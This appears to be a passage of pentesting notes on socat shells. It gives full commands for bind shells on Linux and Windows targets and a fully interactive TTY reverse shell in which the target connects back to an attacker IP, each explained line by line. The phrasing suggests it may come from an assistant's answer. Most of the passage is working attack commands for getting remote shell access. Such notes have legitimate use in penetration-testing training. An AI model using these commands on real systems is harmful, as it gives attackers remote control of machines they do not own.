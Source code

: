 #### Bind Shell
- **Target (Linux)**:
  ```bash
  socat TCP-L:4444 EXEC:"bash -li"
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP-L:4444`: Listens on port 4444.
    - `EXEC:"bash -li"`: Binds an interactive Bash shell to incoming connections.
- **Target (Windows)**:
  ```bash
  socat TCP-L:4444 EXEC:powershell.exe,pipes
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP-L:4444`: Listens on port 4444.
    - `EXEC:powershell.exe,pipes`: Binds PowerShell with Unix-style I/O.
- **Attacker (connect)**:
  ```bash
  socat TCP:10.10.10.100:4444 -
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP:10.10.10.100:4444`: Connects to the target’s IP and port.
    - `-`: Uses standard input/output for the connection.

#### Fully Stable Linux TTY Reverse Shell
This is the command you highlighted, and it’s a powerful Socat feature for creating a fully interactive shell.
- **Attacker (listener)**:
  ```bash
  socat TCP-L:443 FILE:`tty`,raw,echo=0
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP-L:443`: Sets up a TCP listener on port 443.
    - `FILE:`tty`,raw,echo=0`: Connects the listener to the current terminal (`tty`), with `raw` mode (minimal processing) and `echo=0` (disables local echo for stability).
- **Target**:
  ```bash
  socat TCP:10.10.10.5:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `TCP:10.10.10.5:443`: Connects to the attacker’s IP and port.
    - `EXEC:"bash -li"`: Executes an interactive (`-i`) login (`-l`) Bash shell.
    - `pty`: Allocates a pseudoterminal, enabling interactive features like tab completion.
    - `stderr`: Redirects error messages to the shell, ensuring they’re visible.
    - `sigint`: Passes `Ctrl+C` signals to the shell, allowing you to interrupt commands.
    - `setsid`: Runs the shell in a new session, isolating it from the parent process.
    - `sane`: Normalizes terminal settings for consistent behavior.
- **Notes**:
  - Requires Socat on the target (upload if needed).
  - Creates a fully interactive shell, perfect for commands like `ssh` or `vim`.
